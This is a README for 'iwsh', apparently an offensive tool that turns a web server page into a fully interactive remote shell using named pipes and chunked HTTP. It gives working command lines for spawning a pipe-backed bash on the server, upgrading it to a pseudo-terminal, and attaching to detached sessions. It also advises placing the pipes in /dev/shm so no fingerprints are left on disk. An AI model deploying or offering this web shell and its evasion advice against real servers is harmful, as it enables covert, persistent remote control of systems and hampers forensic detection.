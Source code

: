 # iwsh (INTERACTIVE WEB SHELL)


##### *The goal of the project is to create a fully interactive shell based on a web server without the need for any additional network connections.*


I was inspired by a situation where I couldn't create any new connections except for web connections over the HTTP protocol.
After spending several days i didn't find works solution. First problem is was create established process, so project create independent process of http requests on server. 

This project communicate over named pipes that create in file system. Interactive shell using two pipes. First pipe for **stdin** default `/tmp/i` that web server write data to from user. Second pipe use for **stdout** and **stderr** defualt `/tmp/o` that web server read data from shell and return to user via Chunked Transfer Encoding that available in `HTTP/1.1`. Streaming data transfer from **stdout** and **stderr** helps reduce the number of requests. I recommend use direcotry `/dev/shm` instead of `/tmp` or other directory that do not leave any fingerprints on disk.

The project consists of two files: 1) client is written in bash by use **curl** for communication with web server. 2) page for web server for communicate with client and server-side shell.

**Curl** has some limitation for request chunked, so not easily create two-way streaming use curl. I believe that can be created by other client or even better use one page on server with javascript for create full interactive webshell in browser. I don't know very well JavaScript and all of web stack that spend time for create some of this. So I hope someone will be interested in continuing to help develop the project.

---

###### Available options in client:
1. Run command in not interactive shell (by default) 
	Example: `./client --url http://localhost/mypage.php` 
2. Run command in interactive shell without tty 
	Example: `./client --url http://localhost/mypage.php -i`
3. Run command in interactive shell with tty. For this option client has several predefined command for spawning pseudo tty: `--stty-python`, `--stty-expect`, `--stty-script`. You can use own command for spawning tty. You must provide the command as one argument, so please don't forget `\"` use: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
    Example: `./client --url http://localhost/mypage.php -i --stty-raw --stty-python --alias`

###### Stty options:
- By default client running in normal mode and read command line by line. In this mode client can't read special keys some of `ctrl+c`, `ctrl+d`, `ctrl+r`, `ctrl+l` and *etc*.
- When you want change **stty option** you don't need push `ctrl+z` after run command: `stty raw -echo; fg` Instead you must use client commands, because client use two different approach for reading input in different modes.
- If you want to run client in **raw mode** you must use: `--stty-raw` or if client running in **normal mode** you can use command to switch from **normal mode** to **raw mode** use: `%:stty_raw`
- When client running in **raw mode** you can switch to **normal mode** use the key combination: `ctrl+alt+s`. To exit the program in **raw mode**, use the key combination `ctrl+alt+q`.


###### Help menu:

- `-h`, `--help`: Display help menu
- `-u`, `--url`: The URL to the file: `--url http://localhost:8080/webshell.php`
- `-curl`, `--curl`: Script communicate with shell by curl. You can add arguments to curl, usage: `--curl '-X POST' -A 'My User-Agent 2.0'`
- `-i`, `--interactive`: Switch to interactive shell.
- `--stty-raw`: Switch stty to raw mode. Switch to normal mode: `ctrl+alt+s`. While normal mode run switch to raw mode write command: `%:stty_raw`
- `--stty-python`: Send command to run python tty mode: `python -c "import pty; pty.spawn('$shell')"`
- `--stty-expect`: Send interactive command to run expect tty mode: 0)`expect` 1)`spawn $shell` 2)`interact`
- `--stty-script`: Send command to run script tty mode: `script -qc /bin/bash /dev/null`
- `--stty-custom`: Send command to run custom tty mode: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
- `--alias`: Send command for setup alias and export TERM: `export TERM=xterm-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'`
- `--alias-custom`: Send command to setup custom alias and other command: `--alias-custom "export TERM=screen-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'"`
- `--shell`: Change from default `bash` to any shell for spawning interactive shell and stty: `--shell /usr/sbin/sh`
- `-ish`, `--init-shell`: Change default command for spawning interactive shell: `--init-shell "rm -f /tmp/i /tmp/o; mkfifo /tmp/i /tmp/o; bash -c 'exec 5<>/tmp/i; cat <&5| bash  2>/tmp/o >/tmp/o'"`
- `-fi`, `--fi`: Interactive shell works on named pipes, so change name of stdin pipe: `--fi /dev/shm/some_input_pipe`
- `-fo`, `--fo`: Interactive shell works on named pipes, so change name of stdout, stderr pipe: `--fo /dev/shm/some_output_pipe`
- `-d`, `--default`: Script by default works with no interactive webshell. So flags set default interacte option: `--interactive`, `--stty-raw`, `--stty-python`, `--alias`. If you want change some of option you need provide next option after default options. `-d --stty-script --shell /bin/bash`
- `--attach`: Join a detached running shell process. To join the right shell, you need to use the same pipes that the shell process uses: `--attach --fi /dev/shm/i --fo /dev/shm/o`

To exit in normal mode stty usage: `ctrl+c` or write: `%:exit`. To exit in raw mode stty usage: `ctrl+alt+q`

If you want **create several instance** of client with interactive shells you need use **different pipes** for everyone instance by use: `--fi` and `--fo`
Don't forget that sever-side process will running even client is close. So if you don't want leaving running process on server-side and leaving any files, You have to manually kill process and remove files. 

---

**Acknowledgments:**
A heartfelt thank you! Your support has been invaluable.

**Special Thanks To:**
1. [@justOleh](https://github.com/justOleh)

---

If you'd like to show your appreciation, you can buy me a cup of coffee:

**Bitcoin Wallet:**
[bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh](bitcoin:bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh?message=Buy%20me%20a%20cup%20of%20coffe)

---

For any inquiries or just to say hello, my contact information is below. Feel free to reach out:

**Contact:**
- **Email:** [numquam_scire@proton.me](mailto:numquam_scire@proton.me)
- **XMPP Protocol:** [death_bee@xmpp.is](xmpp:death_bee@xmpp.is)


